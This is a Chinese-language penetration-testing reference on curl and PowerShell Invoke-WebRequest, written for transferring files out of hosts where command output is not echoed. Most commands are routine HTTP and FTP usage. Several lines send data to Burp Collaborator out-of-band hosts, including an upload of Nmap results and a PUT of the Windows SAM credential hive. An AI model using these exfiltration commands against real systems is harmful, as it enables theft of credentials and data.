 # curl详解

## 0x00 前言

在渗透测试中经常需要在艰难的环境下执行命令，比如没有回显。为了摆脱困境，经常需要传送文件。curl是一个非常厉害的工具，在绝大多数情况下，linux系统中是存在curl的。此外Windows系统中，powershell4.0及其以后的版本中提供了一个cmlet——`Invoke-WebRequest`，其别名之一是curl。所以，简单记录一下curl的用法。

## 0x01 Linux中的curl

### 1.http请求

* **get**

curl 命令后面直接跟url；使用-H指定请求头，每个-H指定一条header；使用 -o 指定输出到具体文件而不是标准输出。

```bash
curl 'https://files.college.360.cn/others/Q1NBQS3lhoXnvZHmuJfpgI_mioDmnK8t56ysMTbor74tU01C5Y2P6K6uLnBkZg==?time=1537360082&sign=5fd0f26e3346e8171e8656caaa42b0fc' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36' -H 'Referer: https://admin.college.360.cn/user/student/course/1032'
```

* **post**

普通表单post，使用-d指定请求体内容。

```bash
curl -d "user=admin&passwd=12345678" http://127.0.0.1:8080/login
```

文件表单post，使用-F指定需要上传的文件。

```bash
curl http://oumchirx584vuu5tk4stk8rcy34tsi.burpcollaborator.net -F "6379.txt=@6379.txt"

# 发送出的请求如下：
# POST / HTTP/1.1
# Host: oumchirx584vuu5tk4stk8rcy34tsi.burpcollaborator.net
# User-Agent: curl/7.58.0
# Accept: */*
# Content-Length: 1978
# Content-Type: multipart/form-data; boundary=------------------------c9011604f054ee36
# Expect: 100-continue

# --------------------------c9011604f054ee36
# Content-Disposition: form-data; name="6379.txt"; filename="6379.txt"
# Content-Type: text/plain


# Starting Nmap 7.60 ( https://nmap.org ) at 2018-09-01 08:25 UTC
# Stats: 0:01:21 elapsed; 0 hosts completed (64 up), 64 undergoing SYN Stealth Scan
# SYN Stealth Scan Timing: About 3.82% done; ETC: 09:00 (0:34:01 remaining)
# Stats: 0:01:21 elapsed; 0 hosts completed (64 up), 64 undergoing SYN Stealth Scan
# SYN Stealth Scan Timing: About 3.82% done; ETC: 09:00 (0:33:59 remaining)
# Stats: 0:01:21 elapsed; 0 hosts completed (64 up), 64 undergoing SYN Stealth Scan
# SYN Stealth Scan Timing: About 3.83% done; ETC: 09:00 (0:33:55 remaining)

# --------------------------c9011604f054ee36--

```

* 其它方法测试

```bash
curl http://www.example.com -X OPTIONS
curl http://www.example.com -X TRACE
...
```

### 2.ftp请求

* **get**

```bash
curl ftp://user:passwd@ftpserver.com:port/path/filename -o filepath
```

* **put**

```bash
curl –u name:passwd -T size.mp3 ftp://www.xxx.com/mp3/
```

* **ls(dir)**

```bash
curl ftp://user:passwd@ftpserver.com:port/path/
```

* **delete**

```bash
curl –u name:passwd ftp://www.xxx.com/ -X 'DELE mp3/size.mp3'
```

## 0x02 Windows中的curl

powershell 中的curl是`Invoke-WebRequest`，它的另一个别名是wget。它是使用`-Headers <IDictionary>`来指定请求头，powershell5.x即以前版本可以指定所有请求头，之后的版本UserAgent只能通过`-UserAgent <String>`指定。

```powershell
Invoke-WebRequest [-Uri] <Uri> [-Body <Object>] [-Certificate <X509Certificate>] [-CertificateThumbprint <String>] [-ContentType <String>] [-Credential <PSCredential>
    ] [-DisableKeepAlive] [-Headers <IDictionary>] [-InFile <String>] [-MaximumRedirection <Int32>] [-Method { Default | Get | Head | Post | Put | Delete | Trace | Options
     | Merge | Patch}] [-OutFile <String>] [-PassThru] [-Proxy <Uri>] [-ProxyCredential <PSCredential>] [-ProxyUseDefaultCredentials] [-SessionVariable <String>] [-Timeou
    tSec <Int32>] [-TransferEncoding {chunked | compress | deflate | gzip | identity}] [-UseBasicParsing] [-UseDefaultCredentials] [-UserAgent <String>] [-WebSession <Web
    RequestSession>] [<CommonParameters>]
```

### 1.http

* **get**

使用-UserAgent 指定UA，使用-Headers指定请求头，使用-OutFile指定输出到文件。若不使用-OutFile，将返回一个HtmlWebResponseObject对象，只在屏幕上显示部分摘要信息，若要显示详细信息可以先将其存入变量，再查看变量content等属性。若只想产看响应体，可用管道符传给`write-host`,如`curl ifconfig.me | write-host` 。

```powershell
Invoke-WebRequest -Uri "https://files.college.360.cn/others/Q1NBQS3lhoXnvZHmuJfpgI_mioDmnK8t56ysMTbor74tU01C5Y2P6K6uLnBkZg==?time=1537360082&sign=5fd0f26e3346e8171e8656caaa42b0fc" -Headers @{"Accept"="*/*"; "Referer"="https://admin.college.360.cn"} -UserAgent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36" -OutFile xxx.pdf
```

* **post**

在使用非get方法时必须用-Method指定请求方法；请求体可以用-body指定一个string或其它类型的对象，也可以从本地文件获取内容作为请求体，使用-infile指定本地文件。

```powershell
curl http://lti9gfqu453str4qj1rqj5q9x03rrg.burpcollaborator.net -Method post -Body "user=admin&passwd=12345678" 
```

* **put**

如果服务器支持put方法，可以直接put上传文件

```powershell
curl http://lti9gfqu453str4qj1rqj5q9x03rrg.burpcollaborator.net -Method put -InFile ‪C:\sam.hive
```

### 2.ftp

似乎只能下载文件

```powershell
curl ftp://user:password@127.0.0.1:21/s2-057.py -outFile s2-057.py
```

